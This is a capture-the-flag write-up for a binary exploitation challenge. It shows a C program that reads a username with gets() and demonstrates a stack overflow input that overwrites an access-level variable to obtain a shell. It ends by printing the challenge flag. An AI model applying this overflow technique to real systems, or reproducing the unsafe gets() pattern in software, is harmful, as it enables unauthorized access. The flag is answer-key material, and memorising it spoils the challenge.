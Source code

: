 # VR Gear Console
## level 2 - binary exploitation - 95 points

### Description
> Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/b7d87de6335e37e49c9ea05875fd2db7

### Hints
> * What happens if you read in more characters than the length of the username buffer?
> * You should look at an ascii table to see what character you need to choose.
> * Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
> * "cat file - | vrgearconsole " will keep the pipe open for commands.

### Solution

Connect via `ssh` and `cd` into `/problems/b7d87de6335e37e49c9ea05875fd2db7`, there are three files:

```
$ ls -l
total 16
-r--r----- 1 hacksports vr-gear-console_3   33 Apr 16  2017 flag.txt
-rwxr-sr-x 1 hacksports vr-gear-console_3 7024 Apr 16  2017 vrgearconsole
-rw-rw-r-- 1 hacksports hacksports        2104 Mar 14  2017 vrgearconsole.c
```

The `flag.txt` file, which we cannot read, the software we have to break and its source. Let's have a look at his source:

```c
#include <stdlib.h>
#include <stdio.h>

int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    printf(
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|  Welcome to the VR gear admin console  |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|      Your account is not recognized    |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "\n\n\n\n"
        "Please login to continue...\n\n\n"
    );
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Login unsuccessful.\n");
        exit(10);
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}
```

In line 9 and 11 it uses `gets` to read user input. Just a friendly remainder, I wish to quote this paragraph on `gets` man page:

```
Never  use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.

For more information, see CWE-242 (aka "Use of Inherently Dangerous Function") at http://cwe.mitre.org/data/definitions/242.html
```

They are obviously right, we can perform a buffer overflow attack to modify `accessLevel` variable, that will be returned from `login` function checked later in line 52 to get shell. The only thing we have to do is submitting an username with 16 random character and another one with an ASCII number less than `0x30`:

```
$ ./vrgearconsole
+----------------------------------------+
|                                        |
|                                        |
|                                        |
|                                        |
|  Welcome to the VR gear admin console  |
|                                        |
|                                        |
|                                        |
|                                        |
+----------------------------------------+
|                                        |
|      Your account is not recognized    |
|                                        |
+----------------------------------------+




Please login to continue...


Username (max 15 characters): aaaaaaaaaaaaaaaa!
Password (max 31 characters):
Your access level is: 0x00000021
Admin access granted!
The flag is in "flag.txt".
$ cat flag.txt
8989d0261ee17bbf95ea5596711538b0
```

### Flag
```
8989d0261ee17bbf95ea5596711538b0
```
